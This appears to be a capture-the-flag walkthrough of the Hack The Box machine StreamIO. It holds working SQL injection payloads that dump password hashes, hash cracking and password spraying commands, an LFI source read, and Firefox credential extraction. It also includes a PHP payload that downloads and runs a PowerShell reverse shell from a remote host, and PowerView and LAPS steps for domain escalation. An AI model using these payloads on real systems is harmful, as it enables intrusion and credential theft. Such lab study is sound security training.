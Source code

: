 ## Takeaway
- When determining the number of columns of the result set of previous `SELECT` statement for `UNION SQLi`. It's best the previous result set is empty so that no type-mismatching happens.
	- `nonexisting' union select 1,2,3,4,5,6--`

## Metadata
- `nmap` will identify a few potential virtual site being `streamio.htb` and `watch.streamio.htb`. Add them to `/etc/hosts`.
- Navigate to `https://watch.streamio.htb/` to locate the site. Running `feroxbuster -u https://watch.streamio.htb/  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt  -x "txt,php" -t 10 -k -e -r` will identify a  search page at `https://watch.streamio.htb/search.php` vulnerable to `SQLi`.
	- Searching for `%` will collect all the movies since the backend is potentially running a query like `select * from movies where name like '%query%'`.
	- Runing a `Union` query nonexisting'+union+select+1,2,3,4,5,6--)`will further confirm that it is vulnerable to `SQLi`.
	- ![[Pasted image 20240310131103.png]]
	- Exfiltrate current database with `nonexisting'+union+select+1,db_name(),3,4,5,6--` as `streamio`.![[Pasted image 20240310141337.png]]
	- Exfiltrate current database tables with `nonexisting'+union+select+1,(SELECT+STRING_AGG(name,+',+')+FROM+streamio..sysobjects+WHERE+xtype+%3d+'U'),3,4,5,6--`.![[Pasted image 20240310141505.png]]
	- Exfiltrate columns of `users` table with `nonexisting'+union+select+1,(SELECT+STRING_AGG(name,+',+')+FROM+syscolumns+WHERE+id+%3d+(SELECT+id+FROM+sysobjects+WHERE+name+%3d+'users')),3,4,5,6--`![[Pasted image 20240310141902.png]]
	- Exfiltrate all users that are staff along with there passwords with `nonexisting'+union+select+1,(SELECT+STRING_AGG(concat(username,'%3a',password),+'%0d%0a')+FROM+users),3,4,5,6--` and `cat creds.txt | awk '{print $1""$2}' > creds.txt` to get a organized file.
	- Run `hashcat -m 0 --username creds.txt /usr/share/wordlists/rockyou.txt --force` to obtain potential users.
		- ![[Pasted image 20240310144403.png]]
- Run `cat cracked.txt | awk -F: '{print $1}' > users.txt` and `cat cracked.txt | awk -F: '{print $3}' > passwords.txt` to generate the files for spraying.
	- Spraying against the host directly has no luck but there is a login page at `https://streamio.htb/login.php`.
	- Run `hydra -C spray.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"` to find valid credential `yoshihide:66boysandgirls..`![[Pasted image 20240310150129.png]]
- After login one is able to visit the previous `unauthorized` page `https://streamio.htb/admin/index.php`.
	-  Use `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/index.php?FUZZ= -H 'Cookie: PHPSESSID=plljm5e3lj3tten6m3nlqi1867' -fs 1678` to fuzz for potential `GET` parameter and find `debug` parameter.![[Pasted image 20240310204239.png]]
	- The `debug` parameter has a `LFI` vulnerability.![[Pasted image 20240310204533.png]]
- Exfiltrate `master.php` and `index.php` using php filter to further analyze.
	- `https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=index.php`
	- Same for `master.php`
	- Within `index.php`, `MSSQL Credential`: `db_admin: B1@hx31234567890`![[Pasted image 20240310205620.png]]
	- Looking at `master.php`, one can identify a `RFI`.![[Pasted image 20240310211849.png]]
- As `streamio\yoshihide`, we can use previous found `mssql` credential `db_admin: B1@hx31234567890` to further enumerate users.
	- Run `sqlcmd -U db_admin -P B1@hx31234567890 -q "SELECT concat(username, ':', password) from streamio_backup..users"` to locate more credentials.
	- Run `hashcat -m 0 cred2.txt /usr/share/wordlists/rockyou.txt --username --force` to crack for plaintext passwords.![[Pasted image 20240310230736.png]]
	- The only non-repeating credential is `nikk37:get_dem_girls2@yahoo.com`. Spray using `netexec`, one can identify that new credential is valid and has access to the host using `winrm`.![[Pasted image 20240310231156.png]]
- `winpeas` as `streamio\nikk37` will identify potential `Firefox DBs`.![[Pasted image 20240310232359.png]]
	- Download `logins.json` and `key4.db` at  `C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\profiles\br53rxeg.default-release` and use `firepwd`(https://github.com/lclevy/firepwd) to retrieve credentials.
		- Run `python3 firepwd.py -d ../`![[Pasted image 20240310233700.png]]
		- `JDgodd:JDg0dd1s@d0p3cr3@t0r` seems like promising pair. Run `netexec` to confirm validity.
# Exploitation
## Shell as yoshihide
- Generate a reverse shell payload.
```shell
# No '<?php ?>' since directly passed to eval()
system("powershell.exe -nop -w hidden -c iex(iwr http://10.10.14.23/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.23 443");
```
- Set up python Web Server at port `123` and send the following request in `burp` to receive a reverse shell as `streamio\yoshihide`.![[Pasted image 20240310212032.png]]
## Shell as nikk37
- Run `evil-winrm -i 10.10.11.158 -u nikk37  -p get_dem_girls2@yahoo.com` to obtain an interactive session.![[Pasted image 20240310234057.png]]
# PrivEsc
- Run bloodhound will identify that `JDGODD` has `WriteOwner` privilege to `CORE STAFF` whose members can read `LAPS` passwords for obtain local administration access.![[Pasted image 20240310234435.png]]
- Load `PowerView` and run following script to add `JDGGOD` to` CORE STAFF`.
```shell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
Set-DomainObjectOwner -Credential $Cred -Identity "CORE STAFF" -OwnerIdentity 'JDgodd'
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity 'JDgodd'
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Credential $Cred
Get-DomainGroupMember -Identity 'CORE STAFF'
```
- Adding `10.10.11.158 DC.streamIO.htb` to `/etc/hosts` and rune `netexec ldap 10.10.11.158 -u JDgodd -p JDg0dd1s@d0p3cr3@t0r --kdcHost 10.10.11.158 -M laps` to retrieve local administrator password as `9cL[408pU3CEXV`. ![[Pasted image 20240311001631.png]]![[Pasted image 20240311001828.png]]
- Run `evil-winrm -i 10.10.11.158 -u administrator  -p 9cL[408pU3CEXV`
